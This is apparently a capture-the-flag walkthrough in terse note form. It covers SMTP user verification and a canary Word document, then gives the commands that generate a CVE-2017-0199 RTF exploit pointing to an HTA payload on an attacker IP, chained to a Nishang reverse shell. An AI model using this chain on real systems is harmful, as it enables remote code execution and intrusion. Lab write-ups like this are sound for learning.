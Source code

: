 Then key in the following to craft a message and to do a verification

![7bfde80bac77c4096df78b418b5e08f8.png](:/9238cb70035a4a9ea186ce1870562444)

The domain of the mail server is able to verify users within the domain, but if the domain is out of the user's context, then we won't be able to know how to verify, and the mail server will just accept it

## Look into the Word Documents with libreoffice

![536b5c16a6d7656dd9bb04f72a232539.png](:/ff04b9a1727e4f26a3034428f289019c)

We will not be able to use powershell for example, as there are hash rules for those kind of files due to AppLocker

## Create a Canary Document to test if the document will be open by receiving end

![0528fd13cb502dc72faf7e1a13d70cd0.png](:/7f40be8f079f40c98fe618c92754fcdc)

Go into Insert Tab => Quick Parts => Field => IncludePicture under Links and References - key in the destination you want

If someone downloads and opens the file, it should have a response on the server. Unless the server has something like e.g. Powershell script that is blocked and requires to "Enable Macros...", or something that blocks, then we won't have a response.

Canary images is very good as it operates before the macro -- this doesn't work as the person is not using office, so no response

## Create Exploit RTF document

Searched online for a RTF exploit and found 2017-0199

> git clone https://github.com/bhdresh/CVE-2017-0199
> 
> python cve-2017-0199_toolkit.py -M gen -w ippsec.rtf -u ['http://10.10.14.17/PleaseSubscribe.hta'](http://10.10.14.17) -t RTF -x 0

Once the RTF file is generated, then we look into powershell scripts in Nishang

Find the Out-HTA file and generate the HTA file. For example

![72cc32015c066ceec55650a725629e34.png](:/1748cfb66fe0403fb6573264aefc6df0)

Move the HTA file to a folder where the webserver will be started

Then copy the reverse shell into the same folder as well

![2d96a040044ace0217b50f7777e6caf2.png](:/342da7e2b92a416e882d56f9843fa75d)

Modify the reverse shell ps1 script to call the reverse shell script at the end of the file

![83b6ad8e99935ad466beea165466b0e4.png](:/fcc16da1bf054347a270a09779feae92)
